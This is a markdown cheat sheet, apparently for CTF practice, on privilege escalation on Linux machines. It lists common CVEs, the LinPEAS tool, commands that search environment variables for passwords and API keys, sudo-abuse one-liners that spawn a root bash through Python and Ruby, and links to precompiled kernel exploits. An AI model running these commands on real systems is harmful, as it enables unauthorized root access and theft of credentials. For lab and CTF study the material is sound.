 # Attacking Linux Boxes

### Most Common CVEs used on CTFs
| # | CVE | Description |
| --- | --- | --- |
| 1 | [Shellshock - CVE-2014-6271](https://www.exploit-db.com/exploits/34900) | Privilage esculation exploit.  Can be used against CGI-Bin also. |
| 2 | [DirtyCow - CVE-2016-5195](https://dirtycow.ninja/) | Privilege escalation vulnerability in the Linux Kernel. (Linux Kernel <= 3.19.0-73.8) |
| 3 | [SambaCry - CVE-2017–7494](https://redteamzone.com/EternalRed/) | Also known as EternalRed.  This is the EthernalBlue of Linux SMB File Servers. |


### Post Exploitation - Privilage Escalation
*Automated Tools:*
| Tool | Description |
| [LinPEASS](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/linPEAS) | A script that search for possible paths to escalate privileges on Linux/Unix |


## Manual Privilage Escalation
*Grabbing OS Information*
```
(cat /proc/version || uname -a ) 2>/dev/null
lsb_release -a 2>/dev/null
```

*Checking $PATH for Write Permissions*
If you have **write permissions on any folder inside the ``PATH`` variable** you may be able to hijacking some libraries or binaries:
```
echo $PATH
```

*Checking Environment Variables*
Looking for interesting information, passwords or API keys in the environment variables.
```
(env || set) 2>/dev/null
```

*Enumerate Misconfigured `sudo`*
Run this command to see what programs you has access to using sudo.
```
sudo -l
```

*Exploiting Misconfigured `sudo`*
| # | Language | Commands |
| --- | --- | --- |
| 1 | Python | `sudo python3 -c 'import os; os.system("/bin/bash")'`
| 2 | Ruby | `sudo ruby -e 'system("/bin/bash")'` |
| 3 | NodeJS | `node -e '[...]()'` |

*NodeJS Privilage Exculation Script*
```Javascript
var exec = require('child_process').exec;
exec('[COMMAND]', function (error, stdOut, stdErr) {
console.log(stdOut);
});
```

## Kernel Exploits
Check the Kernel version for a possible CVE.
```
cat /proc/version
uname -a
```

*Searching for an exploit via SearchSploit*
```
searchsploit "Linux Kernel"
```

*Resources with Compiled Kernel Exploits*
| # | Resource | Description |
| --- | --- | --- |
| 1 | [Lucyoa's Github](https://github.com/lucyoa/kernel-exploits) | Linux Kernel Exploited, Precompiled. |
| 2 | [bwbwbwbw's GitHub](https://github.com/bwbwbwbw/linux-exploit-binaries) | List of very common Linux Kernel Exploits, Precompiled. |
| 3 | [Kabot's Privilege Escalation Packs](https://github.com/Kabot/Unix-Privilege-Escalation-Exploits-Pack) | Another lsit of Linux Kernel Exploits, Precompiled. |


# Resources Referenced
*Special Thanks to:*
| # | Name | Resource |
| --- | --- | --- |
| 1 | Carlos Polop | https://book.hacktricks.xyz/linux-unix/privilege-escalation |
